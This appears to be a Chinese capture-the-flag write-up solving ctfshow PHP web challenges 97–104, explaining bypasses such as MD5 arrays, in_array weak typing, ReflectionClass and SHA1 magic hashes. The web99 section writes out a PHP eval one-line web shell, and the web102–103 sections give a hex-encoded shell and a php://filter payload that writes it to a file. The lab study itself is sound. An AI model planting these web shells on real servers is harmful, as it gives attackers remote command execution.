### web97（ #MD5 强比较 ）

开启容器

代码审计





`a[]=1&b[]=2`

数组绕过即可

md5 函数是不能处理数组的，处理数组会返回 null，所以传两个数组进去，`null===null`，成功绕过。

### web98（ #php 三元表达式 ）



考察 php 三元表达式

```php
$_GET ? $_GET = &$_POST : 'flag';
```

- 这行代码的逻辑是：如果 `$_GET` 数组不为空，则将 `$_GET` 引用绑定到 `$_POST` 数组；否则，将 `$_GET` 设置为字符串 `'flag'`。
- 这里的 `&` 符号表示引用绑定，意味着对 `$_GET` 的修改会直接影响 `$_POST`。

```php
$_GET['flag'] == 'flag' ? $_GET = &$_COOKIE : 'flag';
```

- 这行代码检查 `$_GET['flag']` 是否等于 `'flag'`。如果是，则将 `$_GET` 引用绑定到 `$_COOKIE` 数组；否则，将 `$_GET` 设置为字符串 `'flag'`。

```php
$_GET['flag'] == 'flag' ? $_GET = &$_SERVER : 'flag';
```

- 这行代码同样检查 `$_GET['flag']` 是否等于 `'flag'`。如果是，则将 `$_GET` 引用绑定到 `$_SERVER` 数组；否则，将 `$_GET` 设置为字符串 `'flag'`。

```php
highlight_file($_GET['HTTP_FLAG'] == 'flag' ? $flag : __FILE__);
```

- 这行代码使用 `highlight_file` 函数输出文件内容。
- `highlight_file` 会将指定文件的内容以语法高亮的方式输出。
- 条件判断 `$_GET['HTTP_FLAG'] == 'flag'`：
  - 如果条件为真，则输出变量 `$flag` 的值。
  - 如果条件为假，则输出当前脚本文件（`__FILE__`）的内容。

由于 get post 绑定
所以直接在 get`?HTTP_FLAG=flag`

```
post
HTTP_FLAG=flag
```



### web99（ #审计， #in_array ， #一句话木马 ）

开启容器

代码审计



这里`in_array()`为重点

```
in_array()函数有漏洞 没有设置第三个参数 就可以形成自动转换eg:n=1.php自动转换为1
```


传入一句话木马

`content=<?php @eval($_POST['1']);?>`
in_array 是弱类型比较，所以可以用数字+".php"的方式绕过判断，并写入[一句话木马](https://so.csdn.net/so/search?q=%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)。



### web100（ #php 类， #逻辑运算符优先级 ）

开启容器

代码审计

这里有个小特性是,PHP 里面  `=`的优先级是比`and`优先级高的  
v0 赋值，赋值`=`的优先级高于逻辑运算。所以只要让 is_numeric($v1)返回 true 即可满足 if 判断，and 后面的无论结果如何都不影响。

可以构造 `var_dump(get_class_vars(‘ctfshow’));`
来输出`ctfshow`类的属性内容

继续看判断，v2 不能含有分号，v3 可以含有。



`/?v2=var_dump(get_class_vars&v1=1&v3=);`

```
?v1=1&v2=echo new ReflectionClass&v3=;

```



`a2192a270x2db3da0x2d45b00x2db18c0x2d0c09d9f1aaa4`

ctfshow{a2192a27-b3da-45b0-b18c-0c09d9f1aaa4}

### web101（ #反射 API ）

开启容器

代码审计



这次特殊符号基本都被禁了，利用 ReflectionClass 建立[ctfshow](https://so.csdn.net/so/search?q=ctfshow&spm=1001.2101.3001.7020)类的反射类，`new ReflectionClass($class)`获得 class 的反射对象（包含了元数据信息）。

v3 还是可以用`；`
**payload**：`?v1=1&v2=echo new Reflectionclass&v3=;`



`dfe086c70x2d9e000x2d4ab30x2da37b0x2de6d62b72da1`
`dfe086c7-9e00-4ab3-a37b-e6d62b72da1`

> Unlock Hint for 0 points
> 替换 0x2d 为-,最后一位需要爆破 16 次，题目给的 flag 少一位

### web102 （ #回调函数 , #短标签内敛执行 ）

开启容器

代码审计


`3c3f20406576616c28245f504f53545b22636d64225d293b203f3e`

最终 payload：`v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin`

之后访问`1.php`得到 flag



### web103 （ #回调函数 , #短标签内敛执行 ）



最终 payload：`v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin`



### web104（ #Hash 函数 ）

开启容器

代码审计



简单的 SHA1 绕过

```
#payload
aaK1STfY
0e76658526655756207688271159624026011393
aaO8zKZF
0e89257456677279068558073954252716165668
```

